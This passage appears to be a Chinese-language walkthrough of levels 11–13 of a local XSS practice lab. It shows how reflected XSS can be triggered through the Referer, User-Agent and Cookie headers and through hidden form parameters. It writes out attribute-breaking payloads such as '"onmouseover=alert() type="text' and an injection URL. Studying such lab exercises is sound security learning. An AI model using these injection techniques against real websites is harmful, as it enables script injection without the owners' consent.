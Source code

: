 ```
referer: "onmouseover=alert() type="text
```

![image-20230928214038631](C:\Users\16159\AppData\Roaming\Typora\typora-user-images\image-20230928214038631.png)

弹窗成功

**本关小结**：考虑一下http头传值，本关是referer，但接下来也有可能是其他头，如Cookie等

# level12

在url中输入参数发现没有执行，查看前端代码

![image-20230928214601965](C:\Users\16159\AppData\Roaming\Typora\typora-user-images\image-20230928214601965.png)

![image-20230928214719136](C:\Users\16159\AppData\Roaming\Typora\typora-user-images\image-20230928214719136.png)

有一个编码和四个隐藏的

t_ua猜测是http头的UA头

先get传参试一下

```
http://localhost/xss/level12.php?t_link="type='text'>//&t_history="type='text'>//&t_sort="type='text'>//&t_ua="type='text'>//
```

![image-20230928215226391](C:\Users\16159\AppData\Roaming\Typora\typora-user-images\image-20230928215226391.png)

发现

t_sort过滤了双引号，无法闭合

接下来尝试抓包修改ua头

```
"onmouseover=alert() type="text
```

![image-20230928215442544](C:\Users\16159\AppData\Roaming\Typora\typora-user-images\image-20230928215442544.png)

成功弹窗



# level13

![image-20230928215740341](C:\Users\16159\AppData\Roaming\Typora\typora-user-images\image-20230928215740341.png)

有个t_cook,猜测是cookie头

![image-20230928220119433](C:\Users\16159\AppData\Roaming\Typora\typora-user-images\image-20230928220119433.png)

放行，弹窗成功
